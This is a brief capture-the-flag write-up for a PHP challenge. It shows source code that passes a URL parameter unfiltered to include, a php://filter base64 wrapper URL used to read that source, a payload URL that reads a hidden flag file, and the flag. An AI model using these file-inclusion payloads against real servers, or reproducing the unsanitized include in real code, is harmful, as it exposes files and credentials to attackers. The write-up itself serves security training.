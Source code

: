 # My PHP Site

**lfi**: http://159.223.166.39:15000/?file=php://filter/convert.base64-encode/resource=index.php

source-code: index.php 
```php
<?php

if(isset($_GET['file'])){
    if ($_GET['file'] == "index.php") {
        echo "<h1>ERROR!!</h1>";
        die();
    }else{
        include $_GET['file'];
    }

}else{
    echo "<h1>You are missing the file parameter</h1>";

    #note :- secret location /home/tareq/s3crEt_fl49.txt
}
# neu khong co comment thi tim ra kieu gi, sau nay minh moi thay??/
?>
```
**payload**:http://159.223.166.39:15000/?file=s3crEt_fl49.txt

**flag**: KCTF{L0C4L_F1L3_1ncLu710n}